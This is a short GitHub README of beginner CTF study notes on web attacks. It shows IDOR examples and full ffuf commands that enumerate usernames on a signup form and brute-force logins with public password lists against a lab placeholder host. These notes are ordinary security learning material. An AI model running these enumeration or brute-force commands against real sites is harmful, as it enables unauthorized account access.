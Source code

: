 # possibly_awesome_ctf

Hello freinds.  
This repository will be a recording of my journey in ctf.  
I promise you that one day it will be awesome...


## web
1. Vulns & Exploits<br>
   * IDOR (Insecure Direct Object Reference)<br>
     * How to find IDOR vulnerabilities<br>
       -Query Component ex. https://website.com/profile?id=12 or https://onlinestore.com/order/1234/invoice<br><br>
       -Post Variables ex. `<form method="POST" action="/update-password">
                            <input type="hidden" name"user_id" value="123">
                            <div>New Password:</div>
                            <div><input type="password" name="new_password"></div>
                            <div><input type="submit" value="Change Password">
                            </form>`<br><br>
       -Cookies ex. `GET /user-information HTTP/1.1
                    Host: website.com
                    Cookie: user_id=9
                    User-Agent: Mozilla/5.0 (Ubuntu;Linux) Firefox/94.0`<br><br>
                    
   * Auth Bypass<br>
     * Username Enum: <br>
       If there is a create user form, try creating admin and check what msg comes back. <br>
       If msg like "account with this username already exists" comes back, try ffuf.<br>
       ex. `ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"`<br><br>
     
     * Brute Force: can be done w/ hydra, ffuf etc <br>
       ffuf ex. `ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200`<br><br>
     
     * Logic Flaw<br><br>
     
     * Cookie Tampering<br><br>
2. Tools / Sites  
   - [csp evaluator](https://csp-evaluator.withgoogle.com/)  
   - [certificate transparency log](https://crt.sh/) 
   - [hash cracker](https://crackstation.net/)
   - [base64 decoder/encoder](https://www.base64decode.org/)
   - [CyberChef(decrypt/encrypt)](https://gchq.github.io/CyberChef/)
